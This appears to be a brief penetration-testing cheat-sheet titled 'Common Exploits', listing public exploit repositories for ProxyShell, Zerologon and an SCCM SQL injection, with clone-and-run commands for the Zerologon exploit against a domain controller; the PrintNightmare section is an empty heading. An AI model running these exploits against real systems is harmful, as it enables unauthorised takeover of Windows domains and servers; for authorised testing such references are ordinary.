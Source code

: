 # Common Exploits


## Proxyshell

https://github.com/horizon3ai/proxyshell

## Zerologon

https://github.com/dirkjanm/CVE-2020-1472

```bash
git clone https://github.com/dirkjanm/CVE-2020-1472
cd CVE-2020-1472
python3 cve-2020-1472-exploit.py <dc name> <dc ip>

```

## Microsoft Configuration Manager (ConfigMgr / SCCM) 2403 Unauthenticated SQL injections (CVE-2024-43468) exploit

- https://github.com/synacktiv/CVE-2024-43468

## Printnightmare